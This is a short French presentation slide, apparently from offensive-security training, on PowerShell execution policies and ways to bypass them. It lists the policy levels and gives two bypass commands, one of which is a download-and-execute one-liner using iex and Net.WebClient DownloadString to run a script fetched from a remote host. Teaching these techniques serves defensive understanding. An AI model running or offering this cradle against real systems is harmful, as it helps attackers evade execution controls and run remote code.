

Par défaut, Microsoft restreint les scripts PowerShell avec des politiques d'exécution :
Restricted  / AllSigned   / RemoteSigned    / Unrestricted   / Bypass

Bypass offensive :
a) TYPE myScript.ps1 | PowerShell.exe -noprofile
b) powershell.exe -command “iex(New-Object Net.WebClient).DownloadString(‘http://[REMOVED]/myScript. ps1’)”

# POLITIQUES D’EXECUTION